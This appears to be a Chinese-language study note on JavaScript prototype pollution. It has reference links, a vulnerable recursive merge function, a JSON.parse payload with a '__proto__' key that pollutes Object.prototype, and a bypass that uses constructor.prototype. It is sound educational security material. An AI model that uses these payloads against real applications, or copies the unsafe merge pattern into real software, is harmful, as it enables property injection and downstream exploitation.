 - 参考
	- https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html
	- https://blog.csdn.net/qq_43085611/article/details/114745665
- # 简单示例
	- ![1648784344752](https://s2.loli.net/2022/04/01/fLGl2YoVkJMBbsz.png)
	- 错误示例
		- ```js
		  var a = {}, b = {}
		  // 这是给a增加一个键，原型链污染需要拿到对象的原型，修改其的键
		  a.__proto__ = {"aaa": "aaa"} 
		  ```
- # 绕过
	- `__proto__`
		- 使用`constructor.prototype`
- # merge
	- ```js
	  function merge(target, source) {
	      for (let key in source) {
	          if (key in source && key in target) {
	              merge(target[key], source[key])
	          } else {
	              target[key] = source[key]
	          }
	      }
	  }
	  ```
	- 如果使用这样的代码是无法实现污染的：
	- ```js
	  let o1 = {}
	  let o2 = {a: 1, "__proto__": {b: 2}}
	  merge(o1, o2)
	  console.log(o1.a, o1.b)
	  
	  o3 = {}
	  console.log(o3.b)
	  ```
	- 因为JS会将第二行中的`__proto__`识别成o2的原型，在merge进行遍历时就不会遍历到`__proto__`这个键
	- 但是这样是可以的：
	- ```js
	  let o1 = {}
	  let o2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')
	  merge(o1, o2)
	  console.log(o1.a, o1.b)
	  
	  o3 = {}
	  console.log(o3.b)
	  ```
	- 因为JS会将第二行的`__proto__`识别成一个键
	-